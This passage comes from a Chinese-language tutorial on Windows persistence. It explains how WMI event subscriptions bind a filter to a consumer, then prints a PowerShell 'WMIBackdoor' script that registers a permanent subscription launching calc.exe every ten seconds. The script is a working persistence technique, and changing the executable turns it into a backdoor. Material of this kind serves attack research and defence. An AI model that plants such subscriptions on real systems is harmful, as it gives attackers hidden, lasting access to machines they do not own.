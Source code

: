 3、  Binding

Binding的功能就是将Filter和Consumer结合在一起。如果要禁用现有的WMI订阅，需要做的就是删除绑定实例，并且您将不再启用订阅。

### WMI事件订阅：

创建事件订阅的方式有很多种，可以使用Powershell下的cmdlet Set-WMIInstance创建永久的事件订阅。

可以参考链接：

https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/

这里拿一个网上已经生成的实例来进行演示：

使用脚本WMIBackdoor.ps1（来源是乌云镜像上的三好学生提供的：https://wooyun.x10sec.org/static/drops/tips-8189.html）

代码内容为：

```
$filterName = 'TestWMI'
$consumerName = 'attackWMI'
$exePath = 'C:\Windows\System32\calc.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```

![1574868747750](Persistence.assets/1574868747750.png)

直接运行后可以在进程列表中看到每10秒钟运行一个新的calc.exe进程：

![1574868771142](Persistence.assets/1574868771142.png)

